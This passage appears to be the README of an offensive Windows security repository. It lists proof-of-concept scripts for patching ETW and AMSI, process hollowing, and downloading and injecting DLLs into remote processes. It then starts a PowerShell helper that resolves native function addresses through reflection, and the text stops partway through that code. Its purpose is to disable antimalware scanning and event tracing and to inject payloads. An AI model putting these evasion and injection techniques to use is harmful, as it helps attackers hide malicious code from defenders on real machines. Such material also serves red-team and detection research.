 ## Environment & Prereqs

| Requirement            | Notes                                                                                                                         |
| ---------------------- | ----------------------------------------------------------------------------------------------------------------------------- |
| Windows (x64)          | Tested against modern Windows 10/11; adjust for server builds.                                                                |
| PowerShell             | Works in **Windows PowerShell 5.x**; some techniques may require Full CLR loading not available in Constrained Language Mode. |
| .NET CLR access        | Uses reflection to reach `Microsoft.Win32.UnsafeNativeMethods`.                                                               |
| Execution Policy       | Bypass or Unrestricted recommended in lab.                                                                                    |
| Admin / High Integrity | Memory protection changes may require elevated permissions depending on target module & process.                              |

---

## Repo Layout (Suggested)

You can structure the GitHub repo like this:

```
.
├── README.md                     # This file
├── scripts/
│   ├── Patch-EtwEventWrite.ps1   # ETW patch PoC
│   ├── Patch-AmsiOpenSession.ps1 # AMSI patch (base)
│   ├── Patch-AmsiScanBuffer.ps1  # AMSI offset patch PoC
│   ├── Amsi-NullContext.ps1      # Context struct nulling
│   ├── Invoke-CSharpMain.ps1     # Base64 -> GZip -> Assembly load
│   └── ReflectivePE-Load.ps1     # Download & inject DLL into remote process
├── src/
│   └── ProcessHollowing/
│       ├── Program.cs            # C# hollowing example from docs below
│       └── ProcessHollowing.csproj
└── artifacts/
    ├── ConsoleApp1.exe           # Compiled payload (lab)
    ├── ConsoleApp1_Gzip_Base64.txt
    └── ConsoleApp1.dll           # DLL form for reflective injection
```

---

## Core PowerShell Helpers

Most scripts share two helper functions: `LookupFunc` to resolve an exported symbol from a loaded module using reflection into `System.dll`, and `getDelegateType` to build a dynamic delegate you can pass to `Marshal.GetDelegateForFunctionPointer()`.

### `LookupFunc` – Resolve Export Address

```powershell
function LookupFunc {
    Param ($moduleName, $functionName)

    $assem = ([AppDomain]::CurrentDomain.GetAssemblies() | Where-Object {
        $_.GlobalAssemblyCache -and $_.Location.Split('\\')[-1] -eq 'System.dll'
    }).GetType('Microsoft.Win32.UnsafeNativeMethods')

    $getModHandle = $assem.GetMethod('GetModuleHandle',
        [System.Reflection.BindingFlags] 'Public, Static, NonPublic',
        $null, [System.Type[]] @([String]), $null)
    $hModule = $getModHandle.Invoke($null, @($moduleName))

    $getProcAddr = $assem.GetMethod('GetProcAddress',
        [System.Reflection.BindingFlags] 'Public, Static, NonPublic',
```